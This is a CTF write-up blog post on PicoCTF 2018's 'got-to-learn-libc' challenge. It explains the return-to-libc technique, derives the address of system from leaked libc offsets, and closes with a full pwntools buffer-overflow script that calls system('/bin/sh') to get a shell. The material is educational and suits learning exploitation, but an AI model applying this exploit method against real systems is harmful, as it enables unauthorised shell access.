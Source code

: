 ```yaml
---
layout: post
title: Binary Exploitation: got-to-learn-libc (250) - PicoCTF 2018
categories: [general, CTFs]
tags: [CTFs, picoCTF2018]
fullview: true
comments: true
---
```


So this challenge was a great introduction for the concept of ret-2-libc.
As we run the binary we were given a several addresses from libc, that may be really  useful in our exploit.
> Here are some useful addresses:
> 
> puts: 0xf7e2bb40
>
> fflush 0xf7e29cb0
>
> read: 0xf7eaacb0
>
> write: 0xf7eaad80
>
> useful_string: 0x56575030

*Keep in mind that this addresses are random when running the binary on  the remote server due to ASLR.

So apparently we get the addresses of some functions that can be found in libc, as well as an address of a "useful_string".
By examine the binary with GDB we can view the content of this particular address, and we found out that it points to the following string

>  gdb-peda$ x/s 0x56557030
>
> 0x56557030 <**useful_string**>: "/bin/sh"

Knowing that our goal is getting a shell, having the address of `"/bin/sh"` is very useful. Basically our goal is to find a way to call `system` with `"/bin/sh"`, as it will result with a shell on the remote server, and the ability to view the content of flag.txt.

# So what is actually the "ret-2-libc" technique? 
Simply put, "return-to-libc" allows us to bypass protections like NX on the stack which defeat execution from stack. So even if we have a buffer-overflow (And we do have one in this challenge), we can't just write our shell-code to the stack and overwrite the return address to jump back to it and execute the shell-code, because the stack is protected.
What we can do, however, is to use the fact we have a buffer overflow to create a fake function stack frame, consisting of the address of a function that is already loaded into the process' memory (`system`) and give it an appropriate argument (in this case, the address of `"/bin/sh"`).

* You may check the following article to get a better grip and knowledge about ret-2-libc - [Return-to-libc - ExploitDB](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf) 


So the stack should look like this:

|Before|
|---|
|**Lower Memory Address**|
|Real Return Address|
|something|
|something|
|**Higher Memory Address**|


**And After:**

| |
|---|
|**Lower Memory Address**|
|System's Address|
|Fake Return Address |
|"/bin/sh" Address|
|**Higher Memory Address**|


Notice that we use a fake return address because when a function is called the arguments are pushed first, and then the return address is pushed as well.


# Getting the address of system 
It's about time we'll take advantage of the functions' address we got.
Basically, we only need an libc address of one function.
As I mentioned earlier there is a possibility  we have an ASLR protection on the remote server so the address of `system` is different each time, but the difference between the address of another libc function (`puts` for example) and the address of `system` is always the same - offsets don't change.

Since we have access to libc in the path `lib/i386-linux-gnu/libc.so.6`we can use `readelf` to get the offset of puts from the `libc base address` and than adding to that address the offset of `system` which will give us the long-awaited address of `system`.
So `readelf -s lib/i386-linux-gnu/libc.so.6 | grep puts` gave us the offset `0x5f140`, and `readelf -s lib/i386-linux-gnu/libc.so.6 | grep system` gave us the offset `0x3a940`. 

# The script
```python
from pwn import *

addresses = {}
SYSTEM_OFFSET = 0x3a940
PUTS_OFFSET = 0x5f140

def get_useful_addresses():
	r.recvline()
	r.recvline()
	add = r.recvuntil("Enter")
	for address in add.split("\n"): 
		if address != "" and address != "Enter" and ":" in address:
			addresses[address.split(": ")[0]] = address.split(": ")[1] 

def handle_logic():
	get_useful_addresses()
	r.recvuntil("ring:")
	libc_base_address = hex((int(addresses['puts'], 16) - PUTS_OFFSET))
	system_libc_address = hex(int(libc_base_address, 16) + SYSTEM_OFFSET)
	print ("libc base address - " + libc_base_address)
	print ("system libc address - " + system_libc_address)
	payload = "A"*160
	payload += p32(int(system_libc_address, 16))
	payload += p32(int("0xdeadbeef", 16)) 
	payload += p32(int(addresses['useful_string'],16))
	r.sendline(payload)
	

if __name__ == "__main__":
	r = process(['./vuln'])
	handle_logic()
	r.interactive()
```

